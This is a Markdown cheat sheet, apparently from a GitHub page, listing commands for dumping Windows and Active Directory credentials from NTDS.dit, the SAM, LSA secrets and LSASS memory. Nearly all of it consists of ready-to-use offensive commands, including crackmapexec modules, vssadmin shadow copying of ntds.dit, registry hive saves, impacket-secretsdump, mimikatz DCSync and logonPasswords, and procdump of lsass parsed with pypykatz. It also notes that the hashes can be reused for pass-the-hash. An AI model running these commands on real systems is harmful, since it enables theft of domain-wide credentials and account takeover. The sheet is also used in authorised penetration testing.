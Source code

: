 # Credentials Dumping
Uses the boot key to decrypt useful files:
```bash
reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYSTEM
```

## NTDS.DIT
All domain account hashes & kerberos keys. The database is stored on the DC located in the NTDS folder of the system root. Hashes can be used for Pass The Hash attack (except cached hashes).
```bash
crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' --ntds

vssadmin create shadow /for=C:
copy <VOLUME_NAME>\Windows\NTDS\ntds.dit C:\Windows\Temp\NTDS
vssadmin delete shadows /shadow=<ID>
impacket-secretsdump -ntds <NTDS> -system <SYSTEM> LOCAL

lsadump::dcsync \all
```

## SAM
Security Account Manager (SAM) database contains all NTLM hashes for local accounts, stored at `HKLM\SAM` or `c:\system32\config\sam`. On a DC, it simply stores the administrator account from the time it was a server, which serves as the Directory Services Restore Mode (DSRM) recovery account.
```bash
crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' --sam

reg SAVE HKLM\SAM C:\Windows\Temp\SAM
impacket-secretsdump -sam <SAM> -system <SYSTEM> LOCAL
token::elevate lsadump::sam /system:<SYSTEM> /SAM:<SAM>

token::elevate lsadump::sam
```

## LSA secrets
Local Security Authority (LSA) contains cached secrets and keys, stored at `HKLM\SECURITY` or `c:\system32\config\security`.
```bash
crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' --lsa

reg SAVE HKLM\SECURITY C:\Windows\Temp\SECURITY
impacket-secretsdump -security <SECURITY> -system <SYSTEM> LOCAL

token::elevate lsadump::cache
token::elevate lsadump::lsa /inject # ? LOCAL ACCOUNTS?!
lsadump::secrets
```

## LSASS process
Local Security Authority Subsystem Service (LSASS) contains passwords and NTLM hashes, stored in lsass.exe.
```bash
crackmapexec smb <IP> -d '<DOMAIN>' -u '<USER>' -p '<PASS>' -M lsassy
lsassy -d '<DOMAIN>' -u '<USER>' -p '<PASS>' <IP>

tasklist /fi "imagename eq lsass.exe"
procdump.exe -accepteula -ma <PID> C:\\Windows\\Temp\\lsass.dmp
pypykatz lsa minidump lsass.dmp

sekurlsa::logonPasswords
```




```bash
impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'
```